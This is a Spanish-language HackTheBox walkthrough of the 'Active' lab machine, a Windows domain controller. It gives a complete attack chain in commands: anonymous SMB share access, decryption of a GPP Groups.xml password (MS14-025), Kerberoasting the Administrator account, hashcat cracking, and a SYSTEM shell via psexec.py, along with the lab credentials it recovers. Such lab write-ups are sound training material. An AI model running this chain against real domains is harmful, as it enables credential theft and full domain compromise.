# Active — HackTheBox

| Campo      | Detalle                                          |
|------------|--------------------------------------------------|
| Plataforma | HackTheBox                                       |
| Dificultad | Easy                                             |
| SO         | Windows (Active Directory)                       |
| Técnicas   | SMB Null Session, GPP Credentials, Kerberoasting |

---

## 1. Reconocimiento

```bash
nmap -sC -sV -oN nmap_active 10.129.2.50
```

El escaneo identificó un **Controlador de Dominio (DC)** con Windows Server 2008 R2 SP1 y dominio `active.htb`:

| Puerto | Servicio | Relevancia               |
|--------|----------|--------------------------|
| 53     | DNS      | Resolución de dominio    |
| 88     | Kerberos | Autenticación AD         |
| 135    | RPC      | Gestión remota           |
| 389    | LDAP     | Directorio de objetos    |
| 445    | SMB      | Recursos compartidos     |



---

## 2. Enumeración SMB — Null Session

Comprobamos si el servidor permite sesiones anónimas:

```bash
smbclient -L //10.129.2.50 -N
```

**Resultado:** el servidor permite Null Sessions. Recursos accesibles sin credenciales:

- `Replication` — réplica de GPOs del dominio
- `SYSVOL` — directorio estándar de AD
- `Users` — información de usuarios



Accedemos al recurso `Replication` y descargamos todo el contenido recursivamente:

```bash
smbclient //10.129.2.50/Replication -N
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```



---

## 3. GPP Credentials — Descifrado de contraseña

### 3.1 Localización del archivo Groups.xml

Dentro de la estructura de la GPO descargada encontramos el archivo `Groups.xml` en:

```
active.htb\Policies\{GUID}\Machine\Preferences\Groups\Groups.xml
```

Este archivo es el vector de la vulnerabilidad **MS14-025 (Group Policy Preferences)**. Antes del parche, los administradores podían almacenar credenciales cifradas con AES-256 en las GPOs, pero Microsoft publicó la clave privada — haciendo el cifrado completamente reversible.

```bash
smb: \> ls Groups.xml
```

**Credenciales encontradas:**
- **userName:** `active.htb\SVC_TGS`
- **cpassword:** `edBSH0whZLtjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5asSVYdYw/NglVmQ`






### 3.2 Descifrado con gpp-decrypt

```bash
gpp-decrypt -f Groups.xml
```

```
[ * ] Username: active.htb\SVC_TGS
[ * ] Password: GPPstillStandingStrong2k18
```



---

## 4. Kerberoasting — Hash del Administrador

Con las credenciales de `SVC_TGS` consultamos los SPNs registrados en el dominio. Las cuentas con SPN son objetivo de Kerberoasting: solicitamos un ticket TGS cifrado con el hash de su contraseña y lo crackeamos offline.

```bash
GetUserSPNs.py -dc-ip 10.129.2.50 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

Obtenemos un ticket `$krb5tgs$23$` de la cuenta `active.htb/Administrator`. El tipo de cifrado **RC4-HMAC** (`$23$`) es el más débil de Kerberos, lo que hace el crackeo offline viable con Hashcat.




### 4.1 Crackeo offline con Hashcat

```bash
hashcat -m 13100 admin.hash /usr/share/wordlists/rockyou.txt
```

**Contraseña obtenida:** `Administrator : Ticketmaster1968`

---

## 5. Acceso como Administrador del Dominio

Con credenciales administrativas y el puerto 445 abierto usamos `psexec.py` de Impacket para obtener una shell como `SYSTEM`:

```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.129.2.50
```

Como alternativa, `wmiexec.py` funciona cuando psexec está bloqueado por AV.





